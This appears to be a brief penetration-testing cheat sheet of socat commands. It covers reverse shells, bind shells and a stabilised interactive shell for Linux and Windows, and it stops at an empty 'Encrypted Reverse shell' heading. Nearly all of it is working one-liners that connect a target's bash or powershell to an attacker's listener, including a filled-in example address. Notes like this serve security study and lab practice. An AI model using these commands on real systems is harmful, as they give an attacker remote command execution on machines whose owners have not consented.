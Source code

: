 - Reverse Shell

```sh

# Simple listener
socat TCP-L:<port> -


# Connect to the above listener

# Connection on windows
# The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes


# Connection on Linux
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

  

```

- Bind shell

```sh

# Linux listener
socat TCP-L:<PORT> EXEC:"bash -li"


# Windows listener
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

  

# Connections
socat TCP:<TARGET-IP>:<TARGET-PORT> -

```

- Stable shell - only on linux
```sh
# Listener
socat TCP-L:<port> FILE:`tty`,raw,echo=0

# Eg. 
socat file:`tty`,raw,echo=0 tcp-listen:4444

  

# It should be connected only with below command
# -> pty, allocates a pseudoterminal on the target -- part of the stabilisation process
# -> stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
# -> sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
# -> setsid, creates the process in a new session
# -> sane, stabilises the terminal, attempting to "normalise" it.

socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

# Eg.
socat TCP:10.17.27.198:1111 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Encrypted Reverse shell
